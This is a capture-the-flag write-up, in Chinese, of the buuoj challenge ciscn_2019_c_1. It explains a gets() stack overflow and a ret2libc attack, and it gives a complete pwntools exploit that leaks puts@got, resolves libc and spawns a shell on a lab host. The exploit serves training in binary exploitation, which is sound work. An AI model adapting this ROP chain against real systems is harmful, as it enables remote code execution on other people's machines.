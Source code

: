 ```yaml
---
title: buuoj - 2019国赛第一题
date: 2023/12/3 12:00:00
tags:
    - noob
---
```


From buuoj.

## 文件分析

下载`ciscn_2019_c_1`, NX on, PIE off, RELRO partial  
ghidra分析为64位程序

## 解题思路

函数`encrypt()`中存在`gets`，考虑**栈溢出**攻击  
.text段中不存在后门函数，并且有nx，考虑ret2libc

**记录首次学会**

1. 获取`pop rdi; ret;`和puts@plt地址
2. 栈溢出打印puts@got
3. 根据puts@got获知靶机使用的libc
4. 将**puts@got**偏移到system@got & shstr@got
5. 回到`gets`函数，重新执行溢出拿到sh

## 重大注意

如果一个字节为**0x0a**，**会被截断**！（换行）

## EXPLOIT

```python
from pwn import *
import LibcSearcher
sh = remote('node4.buuoj.cn', 29693)
elf = ELF('ciscn_2019_c_1')

putsPlt = elf.plt['puts']
putsGot = elf.got['puts']
popRdiAddr = 0x0400c83
vulnAddr = 0x004009a0
retAddr = 0x0040099f # 不能带0x0a!!!

sh.sendline(b'1') # 选择1.Encrypt (Vulnerable Function)
sh.sendline(b'0'*0x58 + p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(vulnAddr))

sh.recvuntil(b'\nI') # skip
sh.recvuntil(b'\nI') # skip
data = sh.recvuntil(b'\nI') 
putsGotAddr = u64(data[-8:-2] + b'\0\0')

libc = LibcSearcher.LibcSearcher('puts', putsGotAddr & 0xfff)
libcbase = putsGotAddr - libc.dump('puts')
systemAddr = libcbase + libc.dump('system')
shstrAddr = libcbase + libc.dump('str_bin_sh')

sh.sendline(b'0'*0x58 + p64(popRdiAddr) + p64(shstrAddr) + p64(retAddr) + p64(systemAddr))

sh.interactive()
```

Done.
